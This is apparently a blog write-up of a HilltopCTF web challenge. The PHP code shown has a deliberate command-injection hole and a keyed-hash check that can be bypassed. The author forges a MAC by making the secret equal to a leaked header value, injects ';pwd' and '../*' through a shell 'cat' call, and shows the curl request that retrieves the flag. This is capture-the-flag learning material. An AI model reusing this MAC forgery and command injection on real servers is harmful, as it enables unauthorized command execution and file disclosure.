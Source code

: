 ```yaml
---
layout: post
title: "What is the Deadly Bug Here?"
date: 2020-05-01
categories: CTF
permalink: /HilltopCTF
---
```

HilltopCTF - What Is The Deadly Bug Here?

CTF Description: Some times ago I stumbled upon a guy who is famous in YouTube,
and I subscribed him! I think he is very passionate and thoughtful about security things,
and one day, he uploaded a video with title: "Let's play a game: what is the deadly bug
here?." I was very amazed back then. But, that video made me think: I can't just stop with
knowing the bug, I need to do better! I have to patch the code. And here I am, I patched the code and it is bug-proof.

When we initially visit the website, we are greeted with `You need to provide 'mac' and 'greet', okay?`
While viewing the headers, we are provided some handy notes left to us by the author of the code.
By passing `?debug` along, we can view their "patched" source code.
```
Headers:

HTTP/1.1 200 OK
Date: Sat, 30 May 2020 12:53:33 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1084
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Source code visible by ?debug

?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```
We need to pass a mac and greet variable to the host. The headers show a `mygreet` and `mymac`, which when
passed will allow the code `echo passthru("cat $greet 2>&1", $err);` to display the greet, which is
aboutme.txt. We need to find a way to pass a greet through to find the flag. To do so we need a corresponding mac for the greet.
```
Aboutme.txt:

The code is patched by me. The 1337abcdefghijklmnopqrstuvwxyz1337 Hacker.
```
I spent several hours staring at the source code, but I'm not much of a programmer and I didn't see anything
obviously wrong. A quick youtube search turned up the video by liveoverflow referenced in the challenge
description. The video referenced an attack where he was able to set the variable nonce to an array,
causing the hash_hmac function to return a NULL, allowing him to bypass knowing the secret.
The patched code in this challenge utilizes an `is_string` check to keep you from passing an array
through, and makes sure you don't try to change the algorithm from `sha256` via `===`. The challenge also
utilizes the hash function instead of hash_hmac, making it less secure, possibly to hash
length extension attacks. Since we know greet is aboutme.txt and the corresponding hash, it seems like it could work.

I spent a whole night trying to utilize a hash length extension attack to pass through
a command to list directory contents to find the flag. After hours of failure, I went to bed
determined to find the solution. The next morning I awoke to a hint on discord that says look
at what you know and how it's calculated. I immediately realized that the function that is formulating
the hash to display in the headers is the same function that calculates secret if we set the variable nonce.
```
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);
```
By setting the variable nonce to aboutme.txt, the secret variable will now be set to the same mac that
is passed to us through the header! Now that we control what the secret is, we can use an interactive
php shell to generate the mac for the payload we want to send. I proceeded to send `;pwd` as a payload to
find our current working directory, which is `/var/www/html`. A hint provided on the ctf website says
what we want is in the `/var/www` directory. The code we are exploiting `echo passthru("cat $greet 2>&1", $err);`
is running the cat command against whatever we pass as greet. We can cat out all files in a directory by utilizing `*`,
so I crafted a mac for `../*` and got the flag!
```
root@kali:~# php -a
Interactive mode enabled

php > echo hash("sha256", "cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c" . "../*");
cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3

root@kali:~# curl -i 192.81.210.234:10002/?mac=cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3\&greet='../*'\&nonce=aboutme.txt
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 13:29:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Length: 125
Content-Type: text/html; charset=UTF-8

HilltopCTF{uh...1think_1mad3_itwors3_s00wy}
That's the flag, please use them wisely.
Thankyou.cat: ../html: Is a directory
```
I spent so much time looking for an error in the code that I overlooked the human error of being supplied a greet
and corresponding match. Once I realized that the answer had been staring me in the face the
whole time I was able to solve the challenge in a matter of minutes.
